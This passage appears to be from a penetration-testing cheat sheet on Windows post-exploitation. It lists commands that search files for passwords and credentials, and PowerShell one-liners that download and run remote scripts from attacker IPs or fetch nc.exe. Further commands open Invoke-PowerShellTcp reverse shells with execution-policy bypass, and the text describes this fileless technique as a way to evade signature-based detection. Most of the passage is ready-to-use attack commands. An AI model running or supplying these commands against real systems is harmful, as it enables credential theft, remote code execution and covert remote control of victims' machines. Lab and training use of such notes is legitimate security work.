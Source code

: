 #### Find all those strings in config files.

```
dir /s pass == cred == vnc == .config
```

#### Find all passwords in all files.

```
findstr /spin "password" . findstr /spin "password" .
```

### Download files from Kali with powershell

```
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.39/rev.ps1')
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

Other downloading and uploading techinques

[https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

without -C or -command, you need to manually edit the powershell script to run itself,

for example, using [**Invoke-PowerShellTcp.ps1**](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) **in**​ /opt/nishang/Shells**/**Invoke-PowerShellTcp.ps1

Provoke this commmand maually by adding the command at the end of the powershell file.

```
Invoke-PowerShellTcp -Reverse -IPAddress $listenerip -Port 4444
```

![](https://gblobscdn.gitbook.com/assets%2F-Luj\_UTA-FG9do0VYXMX%2F-M2Gyy7MYLmYjyw4FWmj%2F-M2Gz6uF6t-igRGi5ozA%2Fimage.png?alt=media\&token=530110e1-4dde-4c5f-8dc9-9a09a093c15d)

_**You can copy the file to the victim and execute the command just by invoking DownloadString without Powershell –Command**_ argument. This technique is wildly used to create so-called file-less malware where the evil script is executed directly in the memory of the victim machine without dropping any file as such on the harddisk. This technique is used to bypass signature based detection.&#x20;

```
powershell.exe “IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.8:8000/Invoke-PowerShellTcp.ps1')"
```

Or you can manually invoke the command via powershell string. For example,

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $listenerip -Port 4444"
```

Also for PS version 1 and 2
